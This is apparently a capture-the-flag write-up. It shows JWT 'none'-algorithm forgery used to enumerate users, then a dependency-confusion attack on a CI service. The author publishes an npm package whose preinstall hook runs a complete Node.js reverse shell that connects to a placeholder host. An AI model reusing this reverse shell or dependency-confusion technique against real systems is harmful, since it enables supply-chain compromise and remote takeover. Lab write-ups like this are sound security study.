### Spiral CI
---
### Description



The application only have login, there's not much feature in this application.



The first thought i was doing is brute forcing the login. But I didn't found anything.

And then, I realize the index page will automatically generating a JWT cookies. So, the first thing i do if I found JWT is attempt to check is the application accepting a `none` algorithm and keep the original signature.

I am using `jwt_tool` to modify the algorithm

attempt to modify algorithm to `none` and user_id to `0`





Lets set our cookies to the result of generated JWT.


Great, We got a response showing that `user_id:0` didnt exist. It seems the application accepting `none` algorithm

let's check another `user_id` 

`user_id:1`





Well, the response is showing that the user is `disabled`. let's check another user

`user_id:2`





Great!, we got a valid user_id, let's download the ([projects](dl/))

nothing suspicious. But, in `calculator` they're using a private dependency.

([dl/calculator/package.json](dl/calculator/package.json))
```
{
  "name": "calculator",
  "version": "1.0.0",
  "description": "Calculator test using a JS module",
  "main": "app.js",
  "scripts": {
    "test": "node calc.test.js"
  },
  "author": "congon4tor",
  "license": "ISC",
  "dependencies": {
    "calc_gl2xiahl1g": "^1.0.0",
    "prompt-sync": "^4.2.0"
  }
}
```

I am pretty sure `calc_gl2xiahl1g` dependency is not a common name for public dependency.

The first thought i have is it was dependency confusion.

init the packages using `$ npm init`



add `"preinstall": "node calc.test.js"` inside `scripts` object

([n/package.json](n/package.json))
```
{
  "name": "calc_gl2xiahl1g",
  "version": "1.0.1",
  "description": "nyxsorcerer",
  "main": "calc.test.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "preinstall": "node calc.test.js"
  },
  "author": "nyxsorcerer",
  "license": "ISC"
}
```

Create `calc.test.js` so our script will be executed first when our packages is downloaded.

([n/calc.test.js](n/calc.test.js))
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="ip_addr";
PORT="port";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { 
    String.prototype.contains = function(it) { 
        return this.indexOf(it) != -1; 
    }; 
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit', function(code,signal){
            client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

let's publish our package to npm `$ npm publish`



Create a listening service and hit the `Launch Test` button



Wait a couple seconds and our listening service got a new connection



Great! we got the FLAG
